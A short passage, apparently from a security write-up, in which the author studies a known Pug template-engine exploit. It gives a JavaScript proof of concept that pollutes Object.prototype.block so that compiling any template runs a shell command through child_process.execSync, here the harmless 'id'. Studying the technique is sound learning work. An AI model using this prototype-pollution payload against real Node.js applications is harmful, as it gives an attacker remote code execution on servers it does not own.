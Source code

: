 ![pug_generator2.png](img/pug_generator2.png)

To get know more, I will try to follow the exploitable code, run it, and debug it to see how its work, and then follow those format to build up the exploitable code.

```JavaScript
const pug = require('pug');  
Object.prototype.block = {  
	"type": "Text",  
	"line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"  
};  
pug.compile('h1= msg', {debug: true})
```
